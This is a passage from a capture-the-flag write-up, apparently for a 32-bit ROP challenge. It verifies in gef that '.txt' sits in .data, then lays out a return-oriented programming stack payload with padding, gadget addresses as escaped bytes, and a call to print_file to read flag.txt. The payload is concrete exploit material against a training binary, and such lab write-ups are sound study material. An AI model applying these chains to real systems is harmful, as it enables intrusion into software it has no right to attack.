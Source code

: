 

Looks like we can :D. 

```sh
gef➤  i r edi
edi            0x804a01c           0x804a01c
gef➤  x/s $edi
0x804a01c:	".txt"
```
	
Okay, so we succesfully have put ".txt" at .data+0x4 (edi register) :)


# Passing Arguments to Our Function

We now have put our string in memory! It is located at &data_start, or in other words, the start of the .data section header in our program :)
So, now we set up the stack so that it has those addresses on it, which will be arguments passed into the print_file function:


	A's                                     40B
	_______________________________________
	fake ebp
	 = BBBB                                  4B
	_______________________________________
	eip
	 = &ROP gadget
	 = 0x080485aa				 4B
	 = "\xaa\x85\x04\x08"
	_______________________________________
	edi 
	 = &data
	 = 0x0804a018				 4B
	 = "\x18\xa0\x04\x08"
	_______________________________________
	ebp 
	 = "flag"				 4B
	_______________________________________
	eip = &usefulGadget
	 = 0x08048543 				 4B
	 = "\x43\x85\x04\x08"
	________________________________________
	eip = &ROP gadget
	 = 0x080485aa				 4B
	 = "\xaa\x85\x04\x08"
	_______________________________________
	edi 
	 = &data + 0x4
	 = 0x0804a01c				 4B
	 = "\x1c\xa0\x04\x08"
	_______________________________________
	ebp 
	 = ".txt"				 4B
	_______________________________________
	eip = &usefulGadget
	 = 0x08048543 				 4B
	 = "\x43\x85\x04\x08"
	_______________________________________
	eip  
	 = &print_file
	 = 0x080483d0				 4B
	 =  "\xd0\x83\x04\x08"